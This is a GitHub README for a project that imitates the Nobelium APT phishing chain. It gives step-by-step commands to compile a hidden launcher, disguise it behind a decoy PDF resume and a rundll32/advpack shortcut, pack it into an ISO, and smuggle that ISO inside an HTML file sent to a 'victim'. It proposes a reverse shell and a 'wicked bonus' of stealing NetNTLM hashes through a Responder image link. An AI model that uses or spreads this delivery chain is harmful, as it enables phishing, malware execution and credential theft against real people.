

# Mimicking Nobelium APT to send your resume or a reverse shell if you are evil



First of you can clone this repo : 

```
git clone https://github.com/fredtep/SendCV.git
```

## In Linux : 
Modify calc.cs to suite your needs then compile with : 

```bash
mcs -out:calcLauncher.exe calc.cs
```

## In windows : 

1/ Create a Directory

```mkdir CV\Hidden```

2/ Hide the Hidden Folder

```attrib +h CV\Hidden```

3/ Copy the Hidden/CV-Hack3r-2024.pdf inside the Hidden Folder

4/ Copy calcLauncher.exe inside the CV Folder

5/ Hide calcLauncher.exe (right click > properties > Hidden)

6/ Now create a shorcut :

- right click > New > Shorcut

- **For the path choose :** C:\Windows\System32\rundll32.exe c:\windows\system32\advpack.dll,RegisterOCX calcLauncher.exe

- **For the name choose :** CV

Bonus/ You can change the icon as well if you want : right click > properties > Change Icon

You can select some icon from here : %systemroot%\system32\imageres.dll

## Building the ISO file

First of all we need to get oscdimg.exe which is installed along with the Windows Assessment and Deployment Kit (Windows ADK) 
To do so download ADK at this address : [https://learn.microsoft.com/en-us/windows-hardware/get-started/adk-install](https://learn.microsoft.com/en-us/windows-hardware/get-started/adk-install)

Now you can run the following command

```"C:\Program Files (x86)\Windows Kits\10\Assessment and Deployment Kit\Deployment Tools\x86\Oscdimg\Oscdimg" -m -u2 -h -lCV "C:\users\fred\Desktop\CV" "C:\Users\fred\Desktop\CV.iso"```

Now just take your file back to linux and encode the ISO to base64.

```cat CV.iso | base64 -w 0```

Finally copy the output and replace the content of the b64iso variable inside cv.html (toward the end of the script)

Upload cv.html to a server or send it as is and enjoy !

## WICKED BONUS

You can capture the NetNTLM hash of your victim by running responder in a server you own and change line 119 in cv.html : 
```/responder.png" alt="">```

---------------------------------------------------------------

Filesaver.js can be found [here](https://github.com/eligrey/FileSaver.js/tree/master)